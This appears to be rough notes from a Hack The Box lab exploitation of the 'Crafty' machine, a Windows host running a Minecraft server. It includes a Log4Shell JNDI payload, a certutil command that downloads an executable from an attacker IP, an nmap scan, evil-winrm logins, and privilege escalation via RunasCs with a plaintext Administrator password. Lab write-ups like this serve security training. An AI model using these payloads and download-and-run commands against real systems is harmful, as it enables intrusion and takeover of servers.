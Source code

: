## NMAP


### IP - 10.10.11.249

${jndi:ldap://10.10.14.107:1389/a}

certutil -urlcache -f http://10.10.14.107:4245/expl.exe c:\Users\svc_minecraft\server\logs\expl.exe


.\RunasCs.exe Administrator s67u84zKq8IXw expl.exe

Nmap scan report for crafty.htb (10.10.11.249)
Host is up (0.46s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE   VERSION
80/tcp    open  http      Microsoft IIS httpd 10.0
|_http-title: Crafty - Official Website
| http-methods: 
|_  Potentially risky methods: TRACE
25565/tcp open  minecraft Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 1/100) ( CVE-2021–44228 )
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 527.64 seconds




### Tools Link: 

log4j: https://github.com/kozmer/log4j-shell-poc

requirements for log4j

```
#Copy in the '/log4j-shell-poc' directory
wget https://repo.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-linux-x64.tar.gz

tar -xf jdk-8u181-linux-x64.tar.gz #To extract

mv jdk1.8.0_181 jdk1.8.0_20 #poc.py is searching for this filename

````

### Minecraft-client networking library in Python

https://github.com/ammaraskar/pyCraft?source=post_page-----316a735a306d--------------------------------


### Let’s try remoting in with evil-winrm.

evil-winrm -i <target IP> -u Administrator -p <password>
evil-winrm -i 10.10.11.249 -u Administrator -p 's67...'

### RunasCs - Csharp and open version of windows builtin runas.exe

https://github.com/antonioCoco/RunasCs

There is a tool called ‘RunasCs’ which will allow us to run processes with different permissions that the ones we currently have. The goal is to initiate an Administrator shell from our current user ‘svc_minecraft’.

### .\RunasCs.exe Administrator s67...pass expl2.exe


https://www.hackthebox.com/achievement/machine/296157/587
